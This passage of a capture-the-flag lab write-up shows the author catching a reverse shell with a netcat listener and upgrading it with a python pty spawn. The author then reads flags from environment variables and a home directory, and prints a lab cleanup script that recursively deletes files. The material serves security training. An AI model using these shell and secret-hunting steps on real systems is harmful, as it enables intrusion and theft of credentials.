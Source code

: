 <div>
<center><img src="/images/pa-webapp-ctf/rev-shell.png"></center>
</div>

FLAG5 was an environment variable and FLAG6 could be found in the current user's home directory:

{% highlight bash %}
root@attackdefense:~# nc -nvlp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.229.198.3.
Ncat: Connection from 192.229.198.3:51444.
/bin/sh: 0: can t access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
bash: /root/.bashrc: Permission denied
codebot@victim-1:/tmp/exec_env$ env | grep FLAG
env | grep FLAG
FLAG5=4787bf9ab0f4b5f60a19b577e4d1a486
codebot@victim-1:/tmp/exec_env$ ls /home/codebot
ls /home/codebot
FLAG6
codebot@victim-1:/tmp/exec_env$ cat /home/codebot/FLAG6
cat /home/codebot/FLAG6
c6d0b7e9cfd203a6db53a75f5f952b9c
codebot@victim-1:/tmp/exec_env$
{% endhighlight %}

## Rootin' it - FLAG3, FLAG7, FLAG8, FLAG10
After a bit of enumeration, I found the /cleanup.sh script:

{% highlight bash %}
codebot@victim-1:/$ cat /cleanup.sh
cat /cleanup.sh
#!/bin/bash

# Clean any file that was created before last minute

# FLAG8: a6dd00deb2654213060bc0efc28e576e

find / -not \( -path /home/codebot -prune \) -user codebot -mindepth 1 -mmin +1 -exec rm -rvf {} \;
codebot@victim-1:/$
{% endhighlight %}
